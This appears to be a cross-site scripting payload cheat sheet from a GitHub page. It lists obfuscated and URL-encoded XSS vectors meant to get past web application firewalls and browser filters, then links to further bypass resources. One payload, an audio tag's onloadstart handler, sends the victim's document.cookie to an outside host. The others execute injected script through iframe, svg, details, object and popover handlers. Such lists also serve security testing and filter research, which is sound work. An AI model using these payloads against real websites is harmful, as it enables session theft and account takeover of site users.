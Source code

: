 ```
<iframe/onload='this["src"]="javas&Tab;cript:al"+"ert``"';>
<iframe/onload="var b = 'document.domain)'; var a = 'JaV' + 'ascRipt:al' + 'ert(' + b; this['src']=a">
<audio autoplay onloadstart=this.src='hxxps://msf.fun/?c='+document["cook"+"ie"]' src=x>
<img/src=q onerror='new Functional\ert\1\``'>
<object data='data:text/html;;;;;base64,PHNjcmlwdD5hbGVydCgxKTwvc2NyaXB0Pg=='></object>
<svg onload\r\n=$.globalEval("al"+"ert()");>
[1].map(alert)   or    (alert)(1)
<"><details/open/ontoggle="jAvAsCrIpT&colon;alert&lpar;/xss-by-tarun/&rpar;">XXXXX</a>
[1].find(confirm)
<svg/onload=self[aler%2bt]1>
%22%3E%3Cobject%20data=data:text/html;;;;;base64,PHNjcmlwdD5hbGVydCgxKTwvc2NyaXB0Pg==%3E%3C/object%3E
'-[document.domain].map(alert)-'
```

```
<button%20popovertarget=x>Click%20me</button><img%20onbeforetoggle=alert(1)%20popover%20id=x>XSS
```

```
foo%27%22%3E%3CImg%0ASrc%0A=OnXSS%0AOnError%0A=alert(1)%3E
```

```
<h1%20oNLY%20OnMouseover=prompt(document.cookie)>
```

https://d3adend.org/xss/ghettoBypass

https://github.com/0xInfection/Awesome-WAF

https://github.com/masatokinugawa/filterbypass/wiki/Browser's-XSS-Filter-Bypass-Cheat-Sheet
